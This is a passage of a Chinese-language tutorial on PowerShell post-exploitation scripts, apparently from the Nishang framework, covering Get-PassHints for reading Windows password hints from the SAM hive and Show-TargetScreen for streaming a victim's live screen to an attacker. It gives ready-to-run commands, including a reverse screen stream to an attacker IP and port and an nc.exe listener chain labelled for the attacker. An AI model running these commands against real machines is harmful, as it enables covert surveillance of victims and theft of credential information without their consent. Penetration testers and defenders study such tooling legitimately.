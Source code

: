 #### Get-PassHints
这个脚本可以从Windows获得用户的密码的提示信息，需要有Administrator的权限来读取SAM hive。
执行方式：

```powershell
PS > Get-PassHints
```
#### Show-TargetScreen
使用MJPEG传输目标机器的远程桌面的实时画面，在本机我们可以使用NC或者Powercat来进行监听。在本地使用支持MJPEG的浏览器（如：Firefox）访问本机对应监听端口，即可在浏览器上面看到远端传输回来的实时画面。

```powershell
PS > Show-TargetScreen -Reverse -IPAddress 192.168.230.1 -Port 443  //将远程的画面传送到192.168.230.1的443端口
```
测试
Victim：

```powershell
Show-TargetScreen -IPAddres 192.168.199.127 -Port 5773 -Reverse
```
Attacker：

```powershell
nc.exe -nlvp 5773 | nc.exe -nlvp 9000 //这里我使用的NC，也可以用Powercat
```
本机访问：127.0.0.1:9000
![show-targetscreen](./img/framework/show-targetscreen.jpg)
